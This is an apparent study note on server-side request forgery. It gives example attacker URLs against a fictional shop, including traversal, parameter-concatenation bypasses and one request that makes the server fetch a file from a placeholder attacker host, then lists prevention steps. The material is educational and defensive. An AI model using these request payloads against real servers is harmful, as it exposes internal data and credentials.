 allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing

a lot of trial and error will be required to find a working payload

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as https://requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

-   Access to unauthorised areas
-   Access to customer/organisational data
-   Ability to Scale to internal networks
-   Reveal authentication tokens/credentials

# Examples 
the server expects an endpoint or URL to fetch data from:

## Normal URL
**Expected Request:**
`http://my-shop.de/stock?url=http://api.my-shop.de/api/stock/item?id=123`
**Hacker Request:**
`http://my-shop.de/stock?url=http://api.my-shop.de/api/user` to get user data
`http://my-shop.de/stock?url=http://HACKER_URL/malicious/file` to provide a different url to fetch (executable) data from

## directory traversal
where only the url path can be provided
**Expected Request:**
`http://my-shop.de/stock?url=/item&id=123`
**Hacker Request:**
`http://my-shop.de/stock?url=/../user` to get user data

## concattenated URL
some web apps let us provide a subdomain which is then concattenated with the second-level domain and TLD.
we could by pass that with `&x=` to interrupt the rest 
**Expected Request:**
`http://my-shop.de/stock?server=api&id=123` which is concattteated to: `http://my-shop.de/stock?server=api.my-shop.de/api/stock/item&?id=123`
**Hacker Request:**
`http://my-shop.de/stock?server=api.my-shop.de/api/user&x=&id=123` to get user data


# Finding a SSRF vulnurability
## full URL in Parameter
`http://my-shop.de/stock?url=http://api.my-shop.de/api/stock/item?id=123`
## partial URL in Parameter e.g. Hostname
`http://my-shop.de/stock?server=api`
## only path of URL in parameter
`http://my-shop.de/stock?destination=/item&id=123`
## Forms and input
in the HTML Forms some forms and inputs allow to enter a full / partial URL as value.
e.g. to select a avatar or sth like that where the path of the avatar is provided and loaded -> here we could enter a different value


# How to prevent SSRF
1. Allow List 
2. Deny List
3. validating user input
4. replace values to prevent path / directory traversal